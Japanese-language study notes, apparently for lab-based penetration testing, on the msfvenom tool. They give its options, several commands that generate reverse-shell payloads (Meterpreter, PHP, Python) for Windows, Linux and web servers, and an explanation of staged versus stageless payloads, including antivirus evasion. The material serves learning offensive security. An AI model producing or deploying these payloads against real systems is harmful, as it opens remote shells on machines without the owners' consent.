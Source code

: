 +----+-----------------------------------------------+
| -l | | 作成可能なペイロード一覧を表示 |
+----+-----------------------------------------------+
| -p | | 作成するペイロードを指定 |
+----+-----------------------------------------------+
| -f | | 作成するフォーマットを指定。exe,raw,elf など |
+----+-----------------------------------------------+
| -e | | エンコードを指定 |
+----+-----------------------------------------------+
| -o | | 出力するファイル名を指定 |
+----+-----------------------------------------------+

##### 使用例

```bash
msfvenom -l payloads|encoders
msfvenom --list formats         # サポートされている出力形式を一覧表示
msfvenom -p php/reverse_php LHOST=x.x.x.x LPORT=xxxx -f raw > reverse_shell.php
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe
msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp
msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py
```

##### リバースシェルの種類

ステージングされたペイロードとステージレスペイロードがある

###### ステージングされたペイロード

2 つの部分に分けて送信される。最初の部分はステージャと呼ばれサーバ自体で直接実行されるコード。
待機中のリスナーに接続し直すが、それ自体にリバースシェルコードは含まれていない。
リスナーに接続し、その接続を使用して実際のペイロードをロードし、それを実行してウイルス対策ソフトを回避する。
ステージングされたペイロードには、特別なリスナー(通常は、Metasploit の multi/handller)が必要。

###### ステージレスペイロード

完全に自己完結型。実行するとすぐに待機中のリスナーにシェルを送り返す。

##### ペイロードの命名規則

###### ステージングされたペイロード

| \<OS\>/\<arch\>/\<software\>/\<payload\>
| 例) windows/x64/meterpreter/reverse_tcp

###### ステージングレスペイロード

| \<OS\>/\<arch\>/\<software\>\_\<payload\>
| 例) linux/x86/meterpreter_reverse_tcp
| ※OS が Windows32 ビットの場合、\<arch\>の部分の指定は無し
